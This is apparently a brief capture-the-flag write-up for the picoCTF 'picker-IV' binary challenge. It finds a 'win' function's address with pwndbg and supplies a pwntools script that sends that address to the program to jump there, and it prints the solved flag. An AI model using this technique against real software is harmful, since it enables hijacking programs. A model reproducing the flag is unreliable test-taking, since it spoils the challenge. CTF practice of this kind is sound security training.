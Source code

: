 Using GDB
```
pwndbg> info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x000000000040129e  win

```

Payload will look like 
```
from pwn import * 

#r = remote('',)
r = process("./picker-IV")

# 0x000000000040129e
win = b'40129e'

r.sendlineafter("'0x': ",win)
r.interactive()


```

==picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}==

## Resources
1. Tools -
[hex](https://onlinetools.com/hex/convert-hex-to-ascii)
[JWT](https://token.dev)

